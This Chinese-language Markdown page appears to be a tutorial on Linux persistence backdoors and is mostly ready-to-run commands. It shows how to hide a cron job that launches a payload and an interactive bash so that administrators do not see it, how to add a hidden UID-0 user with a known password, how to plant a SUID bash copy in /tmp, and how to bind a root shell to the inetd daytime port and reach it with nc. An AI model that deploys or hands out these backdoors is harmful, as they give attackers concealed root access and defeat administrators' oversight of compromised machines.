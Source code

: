 
## 定时任务后门

```shell
echo xxx > /tmp/1.elf
chmod +x /tmp/1.elf

(crontab -l;printf "*/1 * * * * /bin/bash /tmp/1.elf;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")
```

![image-20230830235507613](../images/image-20230830235507613.png)

将no crontab for `whoami`文件写到/var/spool/cron/crontabs/root中，而crontab -l就是列出了该文件的内容。所以当管理员使用crontab -l查看定时任务时，就会看到no crontab for root，从而起到了隐藏的效果。

![image-20230830235746458](../images/image-20230830235746458.png)

## 添加超级用户

应急响应第一个就排查`/etc/passwd`

```shell
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/test
```

![image-20230831001351639](../images/image-20230831001351639.png)



## Suid后门

> **SUID权限仅对二进制程序有效**

```shell
cp /bin/bash /tmp/.long #将bash命令cp到.long二进制程序中
chmod u+s /tmp/.long #赋予SUID文件的权限
```

```shell
/tmp/.long -p 
```

> bash2 针对suid有一些防护，所以需要加上-p参数来获取一个root的shell。

![image-20230831155343319](../images/image-20230831155343319.png)

## inetd后门

inetd是一个监听外部网络请求(就是一个socket)的系统守护进程，默认情况下为13端口。当inetd接收到一个外部请求后，它会根据这个请求到自己的配置文件中去找到实际处理它的程序，然后再把接收到的这个socket交给那个程序去处理。

```bash
# 安装
apt-get install openbsd-inetd  
# 写入配置文件
echo 'daytime stream tcp nowait root /bin/bash bash -i' >> /etc/inetd.conf
# 请求daytime服务对应的13端口
nc -vv 192.168.111.128 13
```
